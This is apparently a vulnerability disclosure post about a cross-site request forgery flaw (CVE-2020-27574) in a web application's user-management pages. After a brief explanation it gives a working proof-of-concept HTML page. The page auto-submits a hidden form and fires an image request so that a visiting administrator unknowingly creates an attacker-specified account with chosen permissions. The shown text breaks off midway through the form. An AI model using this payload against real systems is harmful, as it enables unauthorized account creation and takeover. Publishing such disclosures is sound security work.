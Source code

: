 ![user management image](https://raw.githubusercontent.com/tvrbk/tvrbk.github.io/main/_posts/user-management.png)

# Cross-Site Request Forgery (CVE-2020-27574)
A Cross-Site Request Forgery (CSRF) vulnerability is a weakness in a web application where it allows request from other origins. Malicious users are able to post data from other sources to the web applications endpoints. Numerous ways exist for HTML pages to automatically sent data to a form. This can be done with JavaScript or something as simple as an image.

The following HTML form can be hosted by an attacker. Tricking a user account with administrative privileges to visit the page will lead to the creation of an attacker specified account, using an image. The form thereafter will set the account settings.

{% highlight html %}
<html>
  <body onload=document.getElementById("csrf").submit()>
  <img src="http://X.X.X.X/RAPR/TriggerServerFunction.html?CreateUserAccount;;csrf;;verysecurepassword;;"/>
    <form id="csrf" action="http://X.X.X.X/RAPR/DefineUsersSet.html" method="POST">
      <input type="hidden" name="Username" value="csrf" />
      <input type="hidden" name="AcctPswd" value="csrf" />
      <input type="hidden" name="HomeFolder" value="" />
      <input type="hidden" name="PermLogin" value="on" />
      <input type="hidden" name="PermLogin" value="off" />
      <input type="hidden" name="PermListings" value="on" />
      <input type="hidden" name="PermListings" value="off" />
      <input type="hidden" name="PermDownload" value="on" />
      <input type="hidden" name="PermDownload" value="off" />
      <input type="hidden" name="PermUpload" value="on" />
      <input type="hidden" name="PermUpload" value="off" />
      <input type="hidden" name="PermDeleteFiles" value="on" />
      <input type="hidden" name="PermDeleteFiles" value="off" />
      <input type="hidden" name="PermCreateFolders" value="on" />
      <input type="hidden" name="PermCreateFolders" value="off" />
      <input type="hidden" name="PermDeleteFolders" value="on" />
      <input type="hidden" name="PermDeleteFolders" value="off" />
